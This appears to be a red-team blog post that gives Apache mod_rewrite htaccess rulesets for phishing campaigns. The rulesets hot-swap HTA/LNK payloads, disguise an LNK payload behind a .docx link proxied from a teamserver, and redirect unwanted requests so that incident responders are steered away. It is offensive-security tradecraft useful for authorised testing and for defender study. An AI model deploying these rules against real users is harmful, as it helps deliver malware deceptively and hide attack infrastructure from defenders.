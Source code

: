 ```yaml
---
layout: post
title: Apache mod_rewrite Grab Bag
summary: Using Apache mod_rewrite to hot-swap payloads, obfuscate payload file extensions, block non-standard HTTP methods, and use an alternate method to redirect requests for invalid URIs.
tags: 
- mod_rewrite
- phishing
image: /assets/apache/payload-file-extension-obfuscation.gif
---
```


Apache mod_rewrite provides conditional redirection and obfuscation to a red teamer's infrastructure. I've previously written about mod_rewrite in [a few posts]({{site.baseurl}}/topics/mod_rewrite). In this post, I will cover a few quick tricks you can use in conjunction with techniques from my earlier posts while phishing or red teaming.

Be sure you read the [first-time setup instructions]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection#first-time-apache-setup) for mod_rewrite to configure your server to work properly. 

# Payload Hot-Swapping
We've all been in a situation where, just after sending out a large phishing batch, we realize that some aspect of the payload doesn't work in the target environment. Previously, the batch would be burned. With mod_rewrite, we can create a ruleset to redirect requests for the original payload and redirect it to a new payload.

Let's say our original payload, `BonusesAndSalaries2017.hta`, didn't work and we want to replace it with `BonusesAndSalaries2017.lnk`. We could use the following htaccess ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/BonusesAndSalaries2017.hta$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/BonusesAndSalaries2017.lnk </span><span style="color: tomato"> [L,R=302]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">matches our original payload, BonusesAndSalaries2017.hta, </span><br>
<span style="color: gold">Change the request </span> <span style="color: orange">to serve /BonusesAndSalaries2017.lnk. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span></div>

Delete the original payload and put the above ruleset in an htaccess file in the web root of the server hosting the original payload. While this technique works as a reaction a phishing issue, it also works proactively. By using a generic link (such as `/BonusesAndSalaries2017`) in the email, you can quickly modify the third line of the htaccess file to serve up your next payload.

# Payload File Extension Obfuscation
Similar to payload hot-swapping, we can use mod_rewrite to help our phishing email look more believable to targets and email security appliances by hiding our payload's true file extension. Imagine we are going to use an lnk payload, but want end-users to think they're clicking on a link to a Word document. If our email used the `<a>` tags to obfuscate the link, a mouse-over or copy and paste thwarts the plan. Not to mention the fact that display text that doesn't match the hyperlink destination raises your score in many spam filters.

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.docx?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/JackBrownResume.lnk</span><span style="color: tomato"> [L,R=302]</span><br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/JackBrownResume.lnk?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://TEAMSERVER-IP/<span style="color: dodgerblue">JackBrownResume.lnk</span></span> <span style="color: tomato">[P]</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com/</span><span style="color: mediumvioletred">?</span> <span style="color: tomato">[L,R=302]</span></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.docx (the link we put in the phishing email body), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to /JackBrownResume.lnk (the actual payload). </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br>
<span style="color: dodgerblue">If the request's URI </span> <span style="color: mediumseagreen">is /JackBrownResume.lnk (the payload we want to serve), </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to serve </span><span style="color: dodgerblue">/JackBrownResume.lnk</span><span style="color: orange"> from the teamserver's IP, </span> <span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span><br>
If the above conditions are not met, <span style="color: gold">change the entire request</span> <span style="color: orange"> to http://REDIRECTION-URL.com/ </span><span style="color: mediumvioletred">and drop any query strings from the original request. </span> <span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span>
</div>

The mod_rewrite ruleset will redirect our docx link to the lnk and trigger a download in the end-user's browser. 

Here is a demo of this ruleset in action:

![Payload File Extension Obfuscation Demo](/assets/apache/payload-file-extension-obfuscation.gif)

# 404 Redirection

In my post [Invalid URI Redirection with Apache mod_rewrite]({{site.baseurl}}/2016-03-29-invalid-uri-redirection-with-apache-mod_rewrite/), I covered a method of redirecting invalid URI requests to a chosen page. That method involves manually specifying allowed URIs, regardless of files present in the web directory on your server. 

We can accomplish a similar function by redirecting all requests for nonexistent resources (404s) to a different page:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
ErrorDocument 404 <span style="color: dodgerblue">http://REDIRECTION-URL.com/</span><br></div>
 
If you are only using your Apache server for redirection this is a quick method of filtering requests for invalid URIs. But, keep in mind that Apache will serve any valid files requested

# Block Non-Standard HTTP Methods
Just as pentesters will use non-standard HTTP methods to gather intelligence from a target server, incident responders can use these HTTP methods against our infrastructure. To reduce that risk, we can allow GET and POST requests and redirect all others with the following ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_METHOD}</span> <span style="color: mediumseagreen">!^(GET|POST)</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://REDIRECTION-URL.com</span><span style="color: tomato"> [L,R=302]</span><br></div>

Line by line explanation:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request's HTTP Method </span> <span style="color: mediumseagreen">is not GET or POST, </span><br>
<span style="color: gold">Change the entire request </span> <span style="color: orange">to http://REDIRECTION-URL.com. </span><span style="color: tomato">Do not evaluate further rules and redirect the user, changing their address bar.</span><br></div>

# Summary

Apache mod_rewrite provides a multitude of functionality that is useful for offensive security assessments. With the mod_rewrite techniques covered in this post, we can conditionally redirect web requests to obfuscate our backend infrastructure and point incident responders in the wrong direction. The techniques covered in this post can be combined with other [previously covered]({{site.baseurl}}/topics/mod_rewrite) techniques to even greater effect.

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)